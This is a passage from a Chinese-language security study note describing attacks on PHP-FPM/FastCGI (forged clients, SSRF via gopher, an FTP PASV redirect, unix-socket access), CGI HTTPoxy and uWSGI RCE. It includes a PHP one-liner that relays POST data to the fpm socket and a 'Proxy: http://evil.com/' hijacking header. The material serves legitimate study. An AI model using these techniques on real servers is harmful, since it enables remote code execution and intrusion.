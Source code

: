 来做到执行某php文件时自动包含 POST 内容，执行恶意代码（disable_function在php加载时就确定好了，无法重写，但是可以修改open_basedir的值）

所以综上，我们的攻击思路就是伪造一个可以正常通信的FastCGI客户端，将传输的内容修改为我们的恶意payload（利用`PHP_VALUE`和`PHP_ADMIN_VALUE`这两个可动态修改php设置的项），再发出去；根据目标又可以分成以下几种

- **远程攻击php-fpm**

p牛的php-fpm脚本直接嗦，可以执行任意php代码或加载恶意.so

- **SSRF攻击本地php-fpm**

用gopher打内网fpm9000，payload还是p牛的脚本

- **结合ftp&PASV mode攻击本地php-fpm（已知开放内网fpm端口）**

在受害者端模拟一个ftp-server（用来将我们希望执行的内容转发至fpm），在响应PASV命令（即切换被动模式时）返回`(127,0,0,1,0,12345)`来让ftp-data打向我们指定的内网12345端口；如果是EPSV mode，就不会在通信中有(ip, port)的值 只能把data打向控制连接的服务端的端口，解决方法：手动把EPSV命令的返回结果设为非229的值，那么php的ftp://就会使用PASV命令

之后用继续上面php-fpm的脚本，先覆盖掉原有open_basedir的设置再写入恶意.so，进行RCE

- **攻击unix-socket模式下的php-fpm**

由于unix-socket是读取/run/php/php7.4-fpm.sock进行内部通信，所以不能打远程的，我们用`stream_socket_client`建立一个unix-socket连接，然后写入tcp流来通信

```php
<?php $sock=stream_socket_client('unix:///run/php/php7.3-fpm.sock');fputs($sock,base64_decode($_POST['A']));var_dump(fread($sock, 4096));?>
```

## CGI HTTPoxy

> php<5.6.24
>
> 不止影响php，所有以CGI或Fastcgi运行的程序理论上都受到影响
>
> [httpoxy](https://httpoxy.org/)

根据RFC 3875的规定，CGI/FastCGI要将用户传入的所有http头都加上`HTTP_`前缀放入环境变量中，而恰好大多数类库会约定俗成地提取环境变量`HTTP_PROXY`作为程序HTTP代理地址，于是可以构造`Proxy: http://evil.com/`这样的请求头将使用缺陷类库的网站的代理设置为`http://evil.com/`

## uWSGI RCE

类似fastcgi，经常作为python应用容器启动，也支持加载perl/ruby/go等应用

漏洞的成因和上面那个很相似，在uwsgi的协议中允许通过变量来动态调整参数，其中`UWSG_FILE`参数可以用来忽略原有uWSGI绑定的app，设定一个新的文件进行加载执行（类似上面的`SCRIPT_FILENAME`）

同时uWSGI程序中默认注册了一系列schemes，导致可以进一步利用

```c
void uwsgi_setup_schemes() {
	uwsgi_register_scheme("emperor", uwsgi_scheme_emperor);
	uwsgi_register_scheme("http", uwsgi_scheme_http);
	uwsgi_register_scheme("data", uwsgi_scheme_data);
	uwsgi_register_scheme("sym", uwsgi_scheme_sym);
	uwsgi_register_scheme("section", uwsgi_scheme_section);
	uwsgi_register_scheme("fd", uwsgi_scheme_fd);
	uwsgi_register_scheme("exec", uwsgi_scheme_exec);
	uwsgi_register_scheme("call", uwsgi_scheme_call);
	uwsgi_register_scheme("callint", uwsgi_scheme_callint);
}

static char *uwsgi_scheme_exec(char *url, size_t *size, int add_zero) {
	int cpipe[2];
	if (pipe(cpipe)) {
		uwsgi_error("pipe()");
		exit(1);
	}
```